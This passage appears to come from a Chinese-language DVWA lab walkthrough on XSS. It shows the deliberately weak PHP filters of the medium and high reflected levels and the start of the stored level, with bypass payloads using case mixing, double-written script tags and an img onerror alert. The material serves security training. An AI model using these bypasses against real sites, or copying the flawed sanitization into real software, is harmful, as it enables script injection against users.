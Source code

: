 ```php+HTML
```

过滤了script标签，使用str_replace函数将输入中的script替换为空。可以使用事件类型标签绕过

①大小写绕过：

`<ScRipt>alert('xss')</ScRipt>`

②双写方式绕过str_replace()函数：

`<scr<script>ipt>alert('xss')</script>`

③使用非script标签的xss payload：

img标签：`<img src=1 onerror=alert('xss')>`

### high

```php+HTML
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
	// Get input
	$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

	// Feedback for end user
	$html .= "<pre>Hello ${name}</pre>";
}

?>
```

preg_replace() 函数用于正则表达式的搜索和替换，这使得双写绕过、大小写混淆绕过

（正则表达式中i表示不区分大小写）不再有效，但依旧可以使用事件类型标签

`<img src=1 onerror=alert('xss')>`

## 存储型xss

### low

```php+HTML
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
	// Get input
	$message = trim( $_POST[ 'mtxMessage' ] );
	$name    = trim( $_POST[ 'txtName' ] );

	// Sanitize message input
	$message = stripslashes( $message );
	$message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

	// Sanitize name input
	$name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

	// Update database
	$query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
```